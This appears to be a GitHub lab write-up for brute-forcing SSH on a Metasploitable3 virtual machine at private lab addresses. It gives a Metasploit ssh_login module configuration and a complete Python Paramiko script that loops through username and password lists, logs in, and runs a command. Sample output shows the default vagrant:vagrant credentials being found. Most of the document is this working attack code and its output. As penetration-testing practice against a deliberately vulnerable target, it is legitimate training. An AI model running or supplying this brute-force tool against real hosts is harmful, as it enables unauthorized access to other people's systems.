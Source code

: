 Here’s the revised content with the outputs placed in distinguished boxes for better clarity:

---

# Phase 1: SSH Service Compromise  

---

## Overview  
This phase demonstrates SSH brute force attacks against Metasploitable3 using:  
- Metasploit Framework (`ssh_login` module)  
- Custom Python brute force script  
- Successfully identified vulnerable credentials:  
  `vagrant:vagrant`  

---

## Attack Methodologies  

![image](https://github.com/user-attachments/assets/19d3a39f-f3a8-4b12-8f30-b185c878e1aa)

### 1. Metasploit Brute Force Attack  
#### Configuration:  
```bash
use auxiliary/scanner/ssh/ssh_login
set RHOST 192.168.56.102
set RPORT 22
set USER_FILE /absolute/path/usernames.txt
set PASS_FILE /absolute/path/passwords.txt
set THREADS 3
run
```

#### **Output:**  
```
[*] 192.168.56.102:22 - Starting brute force
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### **Key Findings:**  
- Required absolute paths for credential files  
- Case-sensitive commands (e.g., `set`, not `SET`)  
- Full scan of the target system successfully completed  

---

### 2. Custom Python Brute Force Script  

![image](https://github.com/user-attachments/assets/19bc2092-83d9-4c58-a290-8792e1a389a8)

#### Script: `compromise.py`  
```python
import paramiko
import time

TARGET_IP = "192.168.56.103"
PORT = 22
USERNAME_FILE = "username.stxt"
PASSWORD_FILE = "password.stxt"
COMMAND_TO_RUN = "ip a"

def attempt_login(hostname, port, username, password):
    try:
        client = paramiko.SSHClient()
        client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        client.connect(hostname=hostname, port=port, username=username, password=password, timeout=5)
        print(f"[+] Successfully logged in as {username}:{password} on {hostname}")
        return client
    except paramiko.AuthenticationException:
        print(f"[-] Login failed for {username}:{password} on {hostname}")
    except paramiko.SSHException as e:
        print(f"[-] SSH error connecting to {hostname}: {e}")
    except Exception as e:
        print(f"[-] An error occurred: {e}")
    return None

def execute_command(client, command):
    try:
        stdin, stdout, stderr = client.exec_command(command)
        output = stdout.read().decode().strip()
        error = stderr.read().decode().strip()
        if output:
            print(f"[+] Command executed successfully. Output:\n{output}")
        if error:
            print(f"[-] Error executing command:\n{error}")
    except Exception as e:
        print(f"[-] Error executing command: {e}")

def main():
    usernames = []
    passwords = []

    try:
        with open(USERNAME_FILE, 'r') as f:
            usernames = [line.strip() for line in f]
    except FileNotFoundError:
        print(f"[-] Error: {USERNAME_FILE} not found.")
        return

    try:
        with open(PASSWORD_FILE, 'r') as f:
            passwords = [line.strip() for line in f]
    except FileNotFoundError:
        print(f"[-] Error: {PASSWORD_FILE} not found.")
        return

    for username in usernames:
        for password in passwords:
            print(f"[+] Trying {username}:{password} on {TARGET_IP}:{PORT}")
            ssh_client = attempt_login(TARGET_IP, PORT, username, password)
            if ssh_client:
                print("[+] Proof of Concept:")
                execute_command(ssh_client, COMMAND_TO_RUN)
                ssh_client.close()
                print("[+] Connection closed.")
                return

if __name__ == "__main__":
    main()
```

#### **Execution:** 

![image](https://github.com/user-attachments/assets/7afeb784-38fd-4788-aa69-2df8ee1db8a5)
 
```bash
python3 compromise.py
```

#### **Output:**  
```
[+] Successfully logged in as vagrant:vagrant
```

---

## Discovered Credentials  
- **Username:** `vagrant`  
- **Password:** `vagrant`  

---

## Requirements  

- Metasploit Framework (v6.3+)  
- Python 3.8+  
- Paramiko (Install via `pip install paramiko`)  

--- 


